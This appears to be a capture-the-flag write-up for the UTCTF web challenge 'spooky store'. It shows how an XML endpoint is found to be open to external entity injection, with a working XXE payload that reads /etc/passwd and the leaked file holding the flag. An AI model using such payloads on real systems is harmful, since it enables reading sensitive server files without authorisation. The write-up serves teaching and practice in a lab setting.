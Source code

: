 # [Web] spooky store - (50 pts)

## Description

It's a simple webpage with 3 buttons, you got this :)

[link](http://web1.utctf.live:5005/)

_by matt_

## Solution

When click any of the buttons, it'll POST a XML request.

We can test if it's vulnerable to XXE.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe "1">
]>
<locationCheck>
  <productId>&xxe;</productId>
</locationCheck>
```

It responds with `The nearest coordinates to you are: 25.0000° N, 71.0000° W`.

Try to get `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<locationCheck>
  <productId>&xxe;</productId>
</locationCheck>
```

Responds with:

```txt
Invalid ProductId: root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
utctf:x:1337:utflag{n3xt_y3ar_go1ng_bl1nd}
```

Flag `utflag{n3xt_y3ar_go1ng_bl1nd}`
